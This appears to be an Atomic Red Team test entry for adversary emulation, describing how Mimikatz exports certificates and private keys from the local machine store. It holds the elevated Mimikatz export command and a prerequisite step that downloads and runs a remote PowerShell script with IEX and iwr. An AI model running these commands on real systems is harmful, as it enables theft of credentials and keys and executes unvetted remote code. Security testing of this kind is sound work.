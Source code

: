 ## Atomic Test #14 - Export Certificates with Mimikatz

The following Atomic test will utilize Mimikatz to extract the certificates from the local system My store. This tool is available at https://github.com/gentilkiwi/mimikatz and can be obtained using the get-prereq_commands.
A successful attempt will stdout the certificates and write multiple .pfx and .der files to disk.

**Supported Platforms:** Windows

**auto_generated_guid:** 290df60e-4b5d-4a5e-b0c7-dc5348ea0c86

#### Inputs:

| Name         | Description                 | Type   | Default Value                                                            |
| ------------ | --------------------------- | ------ | ------------------------------------------------------------------------ |
| mimikatz_exe | Path of the Mimikatz binary | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;x64&#92;mimikatz.exe |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
"#{mimikatz_exe}" "crypto::certificates /systemstore:local_machine /store:my /export"  exit
```

#### Dependencies: Run with `powershell`!

##### Description: Mimikatz must exist on disk at specified location (#{mimikatz_exe})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{mimikatz_exe}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing)
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$basePath = Split-Path "#{mimikatz_exe}" | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```

<br/>
